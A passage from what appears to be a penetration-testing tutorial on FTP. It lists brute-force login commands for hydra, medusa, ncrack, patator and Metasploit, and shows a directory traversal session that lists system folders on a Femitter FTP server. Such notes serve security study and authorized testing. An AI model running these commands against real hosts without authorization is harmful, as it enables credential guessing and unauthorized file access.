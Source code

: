```bash
hydra -t 2 -L user.list -P passwords.list -M targetIPs.list -s 21 ftp
medusa -t 2 -T 2 -U user.list -P passwords.list -H targetIPs.list -n 21 -M ftp
ncrack -g CL=2 -U user.list -P passwords.list -iL targetIPs.list -p ftp:21 -oA results.txt
patator ftp_login host=10.10.x.x user=FILE0 password=FILE1 0=users.list 1=passwords.list -x ignore:mesg=’Login incorrect.’ -x ignore,reset,retry:code=500

#Metasploit Framework:
msf > use auxiliary/scanner/ftp/login
set RHOSTS 10.10.x.x
set RPORT 21
set PASS_FILE /usr/share/wordlists/passwords.txt
set USER_FILE /usr/share/wordlists/users.txt
run
```

![Untitled](/assets/img/pitcures/ftp/ftp4.png)

<h2>Common FTP Vulnerabilities</h2>

<h3>Directory Traversal Attack</h3>

A Directory Traversal attack (also known as path traversal) aims to access files and directories that are stored outside the intended folder. By manipulating files with "dot-dot-slash (../)" sequences and its variations, or by using absolute file paths, it may be possible to access arbitrary files and directories stored on file system, including application source code, configuration, and other critical system files.

Directory Traversal vulnerabilities can be generally divided into two types:

- **Information Disclosure**: Allows the attacker to gain information about the folder structure or read the contents of sensitive files on the system.
- **Writing arbitrary files**: Allows the attacker to create or replace existing files. This type of vulnerability is also known as `Zip-Slip`.

```bash
# ftp 192.168.13.22
Connected to 192.168.13.22.
220 Femitter FTP Server ready.
Name (192.168.13.22:root): 
331 Password required for root.
Password:
230 User root logged in.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls ../../../../
200 Port command successful.
150 Opening data connection for directory list.
-rwxrwxrwx   1 ftp      ftp            0 Sep 23  2015 AUTOEXEC.BAT
-rw-rw-rw-   1 ftp      ftp            0 Sep 23  2015 CONFIG.SYS
drw-rw-rw-   1 ftp      ftp            0 Sep 23  2015 Documents and Settings
dr--r--r--   1 ftp      ftp            0 Sep 23  2015 Program Files
drw-rw-rw-   1 ftp      ftp            0 Sep 23  2015 WINDOWS
226 File sent ok
ftp> ls ../../../../Docume~1/
200 Port command successful.
150 Opening data connection for directory list.
drw-rw-rw-   1 ftp      ftp            0 Sep 23  2015 .
drw-rw-rw-   1 ftp      ftp            0 Sep 23  2015 ..
```